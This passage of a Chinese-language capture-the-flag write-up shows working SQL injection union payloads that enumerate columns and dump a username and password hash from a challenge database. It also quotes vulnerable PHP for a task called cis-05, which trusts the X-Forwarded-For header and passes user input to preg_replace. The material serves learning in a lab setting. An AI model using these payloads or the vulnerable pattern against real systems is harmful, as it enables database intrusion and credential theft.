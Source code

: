 返回

```
user
```

再提交

```
0' union select 1,2,GROUP_CONCAT(DISTINCT COLUMN_NAME),4 from information_schema.columns where TABLE_NAME='user' and  table_schema='cetc004'#
```

返回

```
username,password,question,answer
```

管理员用户应该是第一个，直接取应该可以

```
0' union select 1,2,concat(username,',',password),4 from cetc004.user#
```

返回

```
c3tlwDmIn23,2f8667f381ff50ced6a3edc259260ba9
```

密码查不出，但是可以根据之前提到的，重复注册漏洞，再注册一个c3tlwDmIn23，登录即可拿到flag

扩展一下，如果information_schema被过滤了，如果没有报错回显，似乎就只能爆破了，如果有报错回显，可以参考一下[这篇文章](https://www.secpulse.com/archives/68991.html)



## cis-05

这题比较简单，主要记录一下

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```
